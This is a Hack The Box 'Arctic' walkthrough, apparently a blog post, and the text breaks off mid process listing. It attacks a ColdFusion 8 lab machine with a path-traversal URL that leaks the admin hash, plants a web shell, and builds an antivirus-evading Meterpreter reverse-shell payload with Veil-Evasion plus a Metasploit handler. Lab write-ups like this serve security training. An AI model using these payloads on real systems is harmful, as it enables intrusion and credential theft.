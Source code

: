 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="D52222">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Github](https://github.com/Teckk2/Teck_k2/blob/master/ColdFusion-8%20HTML%20web%20shell),[Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule](https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG)
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try clicking (_Run Shedule Task_) button below **Actions**.
<br>Now check the page we uploaded [http://10.10.10.11:8500/CFIDE/cfexec.cfm](http://10.10.10.11:8500/CFIDE/cfexec.cfm)
<br>It should be blank so we need to specify the cmd.exe location to execute the command and in option the command we need to execute and the output file.
![command](https://teckk2.github.io/assets/images/Arctic/11-Arctic.PNG)
<br>It will take around 10 to 20 sec to execute the command so wait untill the page loads, and after that cehck the output.txt file
![output](https://teckk2.github.io/assets/images/Arctic/12-Arctic.PNG)
<br>We got the RCE, there is an **AV** runnning on the target machine and in order to get reverse shell we need to create an encrypted payload in (.bat) format using [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) tool.
<br>Download the tool,No need to install just run the (Veil-Evasion.py) and generate the payload
<br>Check the list of Payload avaialble and chose (powershell/meterpreter/rev_tcp).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># ./Veil-Evasion.py</p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>

<p>&nbsp;Main Menu</p>

<p>&nbsp;<font color="53E100">51</font> payloads loaded</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;use&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Use a specific payload
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Information on a specific payload
<br>&nbsp;list&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;List available payloads
<br>&nbsp;update&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Update Veil-Evasion to the latest version
<br>&nbsp;clean&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Clean out payload folders
<br>&nbsp;checkvt&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Check payload hashes vs. VirusTotal
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Exit Veil-Evasion</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">list</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;<font color="53E100">[*] Available Payloads:</font></p>

<p>&nbsp;1)	auxiliary/coldwar_wrapper
<br>&nbsp;2)	auxiliary/macro_converter
<br>&nbsp;3)	auxiliary/pyinstaller_wrapper</p>

<p>&nbsp;4)	c/meterpreter/rev_http  
<br>&nbsp;5)	c/meterpreter/rev_http_service
<br>&nbsp;6)	c/meterpreter/rev_tcp   
<br>&nbsp;7)	c/meterpreter/rev_tcp_service
<br>&nbsp;8)	c/shellcode_inject/flatc</p>

<p>&nbsp;9)	cs/meterpreter/rev_http 
<br>&nbsp;10)	cs/meterpreter/rev_https
<br>&nbsp;11)	cs/meterpreter/rev_tcp  
<br>&nbsp;12)	cs/shellcode_inject/base64_substitution
<br>&nbsp;13)	cs/shellcode_inject/virtual</p>

<p>&nbsp;14)	go/meterpreter/rev_http 
<br>&nbsp;15)	go/meterpreter/rev_https
<br>&nbsp;16)	go/meterpreter/rev_tcp  
<br>&nbsp;17)	go/shellcode_inject/virtual</p>

<p>&nbsp;18)	native/backdoor_factory 
<br>&nbsp;19)	native/hyperion         
<br>&nbsp;20)	native/pe_scrambler</p>     

<p>&nbsp;21)	perl/shellcode_inject/flat</p>

<p>&nbsp;22)	powershell/meterpreter/rev_http
<br>&nbsp;23)	powershell/meterpreter/rev_https
<br>&nbsp;24)	powershell/meterpreter/rev_tcp
<br>&nbsp;25)	powershell/shellcode_inject/download_virtual
<br>&nbsp;26)	powershell/shellcode_inject/download_virtual_https
<br>&nbsp;27)	powershell/shellcode_inject/psexec_virtual
<br>&nbsp;28)	powershell/shellcode_inject/virtual</p>

<p>&nbsp;29)	python/meterpreter/bind_tcp
<br>&nbsp;30)	python/meterpreter/rev_http
<br>&nbsp;31)	python/meterpreter/rev_http_contained
<br>&nbsp;32)	python/meterpreter/rev_https
<br>&nbsp;33)	python/meterpreter/rev_https_contained
<br>&nbsp;34)	python/meterpreter/rev_tcp
<br>&nbsp;35)	python/shellcode_inject/aes_encrypt
<br>&nbsp;36)	python/shellcode_inject/aes_encrypt_HTTPKEY_Request
<br>&nbsp;37)	python/shellcode_inject/arc_encrypt
<br>&nbsp;38)	python/shellcode_inject/base64_substitution
<br>&nbsp;39)	python/shellcode_inject/des_encrypt
<br>&nbsp;40)	python/shellcode_inject/download_inject
<br>&nbsp;41)	python/shellcode_inject/flat
<br>&nbsp;42)	python/shellcode_inject/letter_substitution
<br>&nbsp;43)	python/shellcode_inject/pidinject
<br>&nbsp;44)	python/shellcode_inject/stallion</p>

<p>&nbsp;45)	ruby/meterpreter/rev_http
<br>&nbsp;46)	ruby/meterpreter/rev_http_contained
<br>&nbsp;47)	ruby/meterpreter/rev_https
<br>&nbsp;48)	ruby/meterpreter/rev_https_contained
<br>&nbsp;49)	ruby/meterpreter/rev_tcp
<br>&nbsp;50)	ruby/shellcode_inject/base64
<br>&nbsp;51)	ruby/shellcode_inject/flat</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">use 24</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;Payload: powershell/meterpreter/rev_tcp loaded</p>


<p>&nbsp;Required Options:</p>

<p>&nbsp;Name&nbsp;&nbsp;&nbsp;Current&nbsp;Value&nbsp;Description
<br>&nbsp;----&nbsp;&nbsp;&nbsp;-------------&nbsp;-----------
<br>&nbsp;LHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IP of the Metasploit handler
<br>&nbsp;LPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4444&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Port of the Metasploit handler</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;set&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Set a specific option value
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show information about the payload
<br>&nbsp;options&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show payload's options
<br>&nbsp;generate&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Generate payload
<br>&nbsp;back&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Go to the main menu
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit Veil-Evasion</p>

<p>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LHOST 10.10.*.*</font>
<br>&nbsp;[i] LHOST => 10.10.*.*
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LPORT 4455</font>
<br>&nbsp;[i] LPORT => 4455
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">generate</font></p>
 
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;[>] Please enter the base name for output files (default is 'payload'): arctic</p>

<p>&nbsp;Language:		<font color="53E100">powershell</font>
<br>&nbsp;Payload:		powershell/meterpreter/rev_tcp
<br>&nbsp;Required Options:      LHOST=10.10.*.*  LPORT=4455
<br>&nbsp;Payload File:		/var/lib/veil-evasion/output/source/arctic.bat
<br>&nbsp;Handler File:		/var/lib/veil-evasion/output/handlers/arctic_handler.rc</p>

<p>&nbsp;[*] Your payload files have been generated, don't get caught!
<br>&nbsp;<font color="ffff00">[!] And don't submit samples to any online scanner! ;)</font></p>

<p>&nbsp;[>] Press any key to return to the main menu.</p>
</div>
</font>
<br>Our payload has been generate, now copy the payload to desktop and set up the webserver if it's not already running to upload the file.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cp /var/lib/veil-evasion/output/source/arctic.bat /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cd /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># python -m SimpleHTTPServer 80
<br>Serving HTTP on 0.0.0.0 port 80 ...</p>
</div>
</font>
<br>Now upload the file using the same method we uploaded our HTML payload earlier using (Shedule Task), for this create a new shedule task and trigger the file using our web shell.
![arctic-shell](https://teckk2.github.io/assets/images/Arctic/13-Arctic.PNG)
<br>amd make sure to save the file at (C:\ColdFusion8\wwwroot\CFIDE\arctic.bat)
<br>Then run the button **(Run Shedule Task)** under **(Actions)** to upload the file to the server.
![Start-shedule-task](https://teckk2.github.io/assets/images/Arctic/14-Arctic.PNG)
<br>Before we proceed ahead check if the payload file has been uploaded successfully or not?
![arctic.bat](https://teckk2.github.io/assets/images/Arctic/15-Arctic.PNG)
<br>Now set up the listner and execute the file from the web
![arctic.bat-2](https://teckk2.github.io/assets/images/Arctic/16-Arctic.PNG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.**.*:4455 -> 10.10.10.11:65155) at 2017-12-30 02:24:25 -0500</p>

<p>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x86/windows
<br>meterpreter > getuid
<br>Server username: ARCTIC\tolis
<br>meterpreter > run post/multi/recon/local_exploit_suggester</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.11 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.11 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br>meterpreter > </p>
</div>
</font>
<br>There are few exploits suggested by **MSF** which we can use to gain Admin/System Levle access, but before we start, weneed to migrate our meterpreter to x64/windows meterpreter session because the Architectur is X64 and our current session is X86/windows.
<br>There are two ways to migrate either you create another payload with x64 sepecified then upload and execute it and get meterpreter or you can migrate to a X64 session which already running on the system.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

 <p>PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
 <br>---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
 <br>0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                      
 <br>4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                
 <br>236&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                              
 <br>272&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>324&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>336&nbsp;&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>368&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;wininit.exe                                           
 <br>388&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>440&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;winlogon.exe                                          
 <br>484&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;services.exe                                          
 <br>492&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsass.exe                                             
 <br>500&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsm.exe                                               
 <br>600&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>672&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>748&nbsp;&nbsp;&nbsp;440&nbsp;&nbsp;&nbsp;LogonUI.exe                                           
 <br>756&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>796&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>844&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>892&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>932&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>944&nbsp;&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>952&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;spoolsv.exe                                           
 <br>1004&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1036&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;CF8DotNetsvc.exe                                      
 <br>1080&nbsp;&nbsp;1036&nbsp;&nbsp;JNBDotNetSide.exe                                     
 <br>1088&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1124&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;dllhost.exe                                           
 <br>1140&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;jrunsvc.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrunsvc.exe
 <br>1168&nbsp;&nbsp;1140&nbsp;&nbsp;jrun.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrun.exe
 <br>1176&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1184&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swagent.exe                                           
 <br>1220&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swstrtr.exe                                           
 <br>1228&nbsp;&nbsp;1220&nbsp;&nbsp;swsoc.exe                                             
 <br>1236&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1240&nbsp;&nbsp;600&nbsp;&nbsp;&nbsp;WmiPrvSE.exe                                          
 <br>1304&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;k2admin.exe                                           
 <br>1364&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1436&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>1480&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;VGAuthService.exe                                     
 <br>1736&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;vmtoolsd.exe                                          
 <br>1748&nbsp;&nbsp;3180&nbsp;&nbsp;powershell.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>1760&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;ManagementAgentHost.exe                               
 <br>2052&nbsp;&nbsp;1304&nbsp;&nbsp;k2server.exe                                          
 <br>2060&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2128&nbsp;&nbsp;1304&nbsp;&nbsp;k2index.exe                                           
 <br>2144&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2320&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>2892&nbsp;&nbsp;796&nbsp;&nbsp;&nbsp;taskeng.exe                                           
